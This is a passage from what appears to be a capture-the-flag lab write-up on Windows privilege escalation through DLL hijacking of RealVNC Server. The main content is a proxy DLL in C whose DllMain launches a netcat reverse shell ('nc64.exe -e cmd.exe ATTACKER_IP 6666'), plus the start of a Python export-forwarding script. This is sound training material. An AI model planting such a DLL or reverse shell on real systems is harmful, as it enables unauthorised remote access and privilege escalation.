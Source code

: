 Now hit the "Ease of Access" button and bam shell.
The flag is in the admins desktop


---
## task 7
---
#### DLL high-jacking

This one was giving me a bit of an issue when it came to crafting the payload, but don't worry you'll see the syntax needed.

So start again by reading the task (the info is always helpful to understand).

It started getting a bit hard for me to understand ( English not being my first language) but the simple rundown is this.

Go to the location of the VNC Server application.

```shell
C:\Programfiles\RealVNC\VNC Server\
```

Copy the contents to this folder. no need to rename anything.

```shell
C:\Users\thm-unpriv\AppData\Local\Temp\
```

Now on your attack box in the share directory create a proxy.c file and a get_exports.py file.

```bash
touch proxy.c
```

```bash
touch get_exports.py
```

In the **proxy.c** file paste this

```c
#include <windows.h>

BOOL WINAPI DllMain(HMODULE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    if (fdwReason == DLL_PROCESS_ATTACH) {
             system('C:\\tools\\nc64.exe -e cmd.exe ATTACKER_IP 6666');
    }

    return TRUE;
}
```

In the get_exports.py paste this

```python
import pefile
import argparse

parser = argparse.ArgumentParser(description='Target DLL.')
parser.add_argument('--target', required=True, type=str,help='Target DLL')
parser.add_argument('--originalPath', required=True, type=str,help='Original DLL path')

args = parser.parse_args()

target = args.target
original_path = args.originalPath.replace('\\','/')

dll = pefile.PE(target)

```